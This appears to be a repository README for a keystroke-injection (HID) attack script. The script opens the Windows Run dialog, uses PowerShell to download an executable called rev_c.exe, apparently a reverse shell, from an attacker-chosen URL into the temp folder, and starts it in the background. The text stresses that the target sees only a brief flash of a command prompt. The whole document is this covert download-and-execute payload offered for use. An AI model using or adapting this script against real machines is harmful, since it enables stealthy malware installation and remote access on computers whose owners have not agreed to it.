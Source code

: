 # HID Deployment

One-liner that downloads an executable from a URL of your choice, saves in temp folder and then starts a process in the background.

The only visible part is opening run and typing this single line of code, a command prompt opens for a fraction of a second & everything else happens first minimized and then in the background.

## HID script
```
GUI R
DELAY 2000
STRING cmd /C "start /MIN cmd /C powershell Invoke-WebRequest -Uri http://YOUR-URL/rev_c.exe -OutFile $env:temp/rev_c.exe ; Start-Process $env:temp/rev_c.exe"
ENTER
```
